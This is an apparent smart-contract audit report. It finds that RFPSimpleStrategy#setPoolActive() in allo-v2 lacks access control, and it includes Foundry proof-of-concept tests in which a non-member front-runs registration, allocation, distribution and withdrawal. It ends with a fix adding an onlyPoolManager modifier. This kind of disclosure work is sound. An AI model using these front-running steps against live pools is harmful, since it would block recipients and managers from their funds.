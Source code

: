 Macho Maroon Scorpion

high

# Anyone can set the status of the pool in `RFPSimpleStrategy#setPoolActive()` to grief the system.
The function `RFPSimpleStrategy#setPoolActive()` lacks access controls, enabling any individual to toggle the pool's status between open and closed. This vulnerability can be exploited to disrupt the system and potentially grief its users.

## Vulnerability Detail

The function `setPoolActive(bool)` is an `external` function that could close or open the pool and is meant to be called by the pool owner or manager. 

**Pool Must Be Active:**
- **Internal Functions:**
  1. `_registerRecipient()`: This function registers a recipient, which should only be possible when the pool is active.
  2. `_allocate()`: This function selects a recipient for the RFP allocation, again only possible when the pool is active.

**Pool Must Be Inactive:**
- **Internal Functions:**
  1. `_distribute()`:  Distribute the upcoming milestone to `acceptedRecipientId` , which should only be possible when the pool is inactive. 
  
- **External Functions:**
  1. `withdraw()`: Allows the pool manager to withdraw the funds, which is only possible when the pool is inactive. 


For illustration, let's see how the the system can be griefed for all the above transactions:
- `Bob` is a pool manager responsible for overseeing the funds and ensuring their proper distribution.
- `Alice` is a deserving recipient who has submitted her milestones and is awaiting her funds.
- `Vicky` is a nefarious player in this scenario. She spots a vulnerability in the system: the function `setPoolActive(bool)` lacks proper access controls, potentially allowing anyone, including her, to exploit this oversight.

Attack#1 (Registration Griefing): Alice starts a transaction to register as a recipient in a pool. Sensing an opportunity from a vulnerability, Vicky intervenes. She front-runs Alice's transaction, deactivating the pool. Consequently, Alice's attempt to register as a recipient fails.

**Attack#2 (Allocation Griefing)**: `Bob` initiates the process to allocate funds to `Alice`. However, due to the vulnerability spotted by `Vicky`, she takes advantage. Before `Bob's` transaction is confirmed, `Vicky` front-runs it to execute her own transaction, thereby shutting down the pool. As a result, the intended allocation of funds to `Alice` gets disrupted, causing undue grief in the process of allocation of funds.

**Attack#3 (Distribution Griefing)**: Or if `Bob` gears up to distribute funds to `Alice`, `Vicky` spots an opportunity to exploit the system once more. This time, she front-runs `Bob`'s transaction, preemptively opening the pool. Because of this unexpected move, `Bob` finds himself unable to distribute the intended funds to `Alice`, further complicating the fund allocation process.

**Attack#4 (Withdraw Griefing)** :  Or if `Bob` attempts to withdraw the funds from the pool, `Vicky` can exploit the system by front-running `Bob's` transaction, to activate the pool. 


https://github.com/allo-protocol/allo-v2/blob/851571c27df5c16f6586ece2a1cb6fd0acf04ec9/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L219

## Impact
Any pools employing the RFP strategy could face severe disruptions. This vulnerability may lead to widespread griefing, potentially bringing the entire system to a standstill.

## Code Snippet

```solidity


    function testRevert_AnyoneCanCallSetPool() public {
        vm.prank(profile1_notAMember());
        strategy.setPoolActive(true);
        assertTrue(strategy.isPoolActive());

        vm.prank(profile1_notAMember());
        strategy.setPoolActive(false);
        assertFalse(strategy.isPoolActive());
    }


    function testAttack1_Registration_Griefing() public {
        address sender = recipient();
        Metadata memory metadata = Metadata({protocol: 1, pointer: "metadata"});
        bytes memory data = abi.encode(recipientAddress(), false, 1e18, metadata);

       //Front running transaction to deactivate the pool
        vm.prank(profile1_notAMember());
        strategy.setPoolActive(false);
        assertFalse(strategy.isPoolActive());

        vm.expectRevert(POOL_INACTIVE.selector);
        vm.prank(address(allo()));
        strategy.registerRecipient(data, recipient());
    }


    function testAttack2_Allocation_griefed() public {
        address recipientId = __register_setMilestones();
        //Front running transaction to deactivate the pool
        vm.prank(profile1_notAMember());
        strategy.setPoolActive(false);
        assertFalse(strategy.isPoolActive());
        vm.expectRevert(POOL_INACTIVE.selector);
        vm.prank(address(allo()));
        strategy.allocate(abi.encode(recipientId), address(pool_admin()));
    }
    
        function testAttack3_Distribution_Griefing() public {
        address recipientId = __register_setMilestones_allocate();
        vm.deal(pool_admin(), 1e19);
        vm.prank(pool_admin());
        allo().fundPool{value: 1e19}(poolId, 1e19);

        //Front running transaction to activate the pool
        vm.prank(profile1_notAMember());
        strategy.setPoolActive(true);
        assertTrue(strategy.isPoolActive());


        vm.expectRevert(POOL_ACTIVE.selector);
        vm.prank(address(allo()));
        strategy.distribute(new address[](0), "", pool_admin());
    }
    
    function testAttack4_Withdraw_Griefing() public {
        allo().fundPool{value: 1e18}(poolId, 1e18);
     
        //Front running transaction to activate the pool
        vm.prank(profile1_notAMember());
        strategy.setPoolActive(true);
        assertTrue(strategy.isPoolActive());

        vm.startPrank(pool_admin());
        vm.expectRevert(POOL_ACTIVE.selector);
        strategy.withdraw(9.9e17); // 1e18 - 1e17 fee = 9.9e17
        assertEq(address(allo()).balance, 0);
        vm.stopPrank();
    }

    //Internal test functions
    function __setMilestones() internal {
        RFPSimpleStrategy.Milestone[] memory milestones = new RFPSimpleStrategy.Milestone[](2);
        RFPSimpleStrategy.Milestone memory milestone = RFPSimpleStrategy.Milestone({
            metadata: Metadata({protocol: 1, pointer: "metadata"}),
            amountPercentage: 7e17,
            milestoneStatus: IStrategy.Status.Pending
        });
        RFPSimpleStrategy.Milestone memory milestone2 = RFPSimpleStrategy.Milestone({
            metadata: Metadata({protocol: 1, pointer: "metadata"}),
            amountPercentage: 3e17,
            milestoneStatus: IStrategy.Status.Pending
        });

        milestones[0] = milestone;
        milestones[1] = milestone2;

        vm.prank(address(pool_admin()));
        vm.expectEmit();
        emit MilestonesSet();
        strategy.setMilestones(milestones);
    }

    function __register_setMilestones() internal returns (address recipientId) {
        recipientId = __register_recipient();
        __setMilestones();
    }

```
## Tool used

Foundry
VS Code

## Recommendation
Consider implementing the access control as described in the natspec comment for `RFPSimpleStrategy#setPoolActive()`. This will ensure that the `msg.sender` is genuinely the pool owner or manager, thus preventing unauthorized or unintended callers from manipulating the function.

```solidity
    /// @notice Toggle the status between active and inactive.
    /// @dev 'msg.sender' must be a pool manager to close the pool. Emits a 'PoolActive()' event.
    /// @param _flag The flag to set the pool to active or inactive
  // @audit `onlyPoolManager(msg.sender)` function modifier applied
    function setPoolActive(bool _flag) external  onlyPoolManager(msg.sender){
        _setPoolActive(_flag);
        emit PoolActive(_flag);
    }
```